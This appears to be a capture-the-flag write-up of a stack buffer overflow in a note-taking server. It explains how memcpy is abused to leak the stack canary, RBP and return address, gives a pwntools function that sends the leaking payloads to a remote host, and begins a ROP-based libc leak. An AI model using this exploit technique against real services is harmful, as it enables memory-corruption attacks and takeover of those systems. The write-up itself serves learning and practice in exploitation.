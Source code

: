 This function dosen't verify the presence of "\x00" end of string. and so we can put "\x00" in the payload and the function will continue copying.
The first canary byte is always "\x00" to block any payload using a functions like "scanf()" etc which stop reading when find the "\x00".
With the first test to know how much bytes to reach the canary block we caught 8 bytes.

```
 => |          Buffer                   |          8 bytes junk        |         8 Bytes of canary    |           8 Bytes RBP            |         8 Bytes Return Address   |
```

- We place index at the end of buffer(put 1024 bytes into notes[])
- With CMD2 we put the offset at 1024 too and tell "memcpy()" to copy 32 bytes which represent the 4 qword (qword == 64bits == 8bytes), and add 32 to index(index+=32)
- We  overrite the buffer but we copy the same value, because "dest" and "src" offset are the same, so we overwite without throw a  smach stack error. 
- Using the CMD3, we can write the note buffer(send to client), and read the buffer + 32bytes after the buffer (canary,EBP,RIP)

Code

```
def read_canary_ebp_rsp():
    payload_fullbuff= put_payload_into_notebuffer()

    #Now index =1024, let's use CMD2 and define offset as 1024 and use memcpy() to copy the canary rbp and rsp into the end of the node[]
    payload_bof =copy_to_note(1024,32)    
    # send the two payload and read the three registers
    p = remote(args.ip,args.port)
    p.send(payload_fullbuff)  # send the payload to put all in the note buffer
    p.send(payload_bof)   # throw bof wiht cmd2

    data= p.recv()
    canary=u64(data[1024+8:1024+16])
    RBP=u64(data[1024+16:1024+24])
    RIP=u64(data[1024+24:1024+32])
    
    canary_formated = binascii.hexlify(struct.pack(">Q",canary)).decode() # fromated address to little endian and in hexa form 
    RBP_formated = binascii.hexlify(struct.pack(">Q",RBP)).decode() # fromated address to little endian and in hexa form 
    RIP_formated = binascii.hexlify(struct.pack(">Q",RIP)).decode() # fromated address to little endian and in hexa form 

    print(colored("Canary: 0x%s "%canary_formated,"green"))
    print(colored("RBP:    0x%s "%RBP_formated,"green"))
    print(colored("RIP:    0X%s "%RIP_formated,"green"))
    p.close()
    return (canary,RBP,RIP)
```

Leak libc 

Now I know the memory space of the main program, but not the libc. I also know the canary and can overwrite the return address. I'll use a rop chain to leak a libc address, and then can calculate the addresses of any functions or strings in libc I want. In the program, it uses "write" to send data to the socket. I'll use a write call to send the GOT table address for the write function.
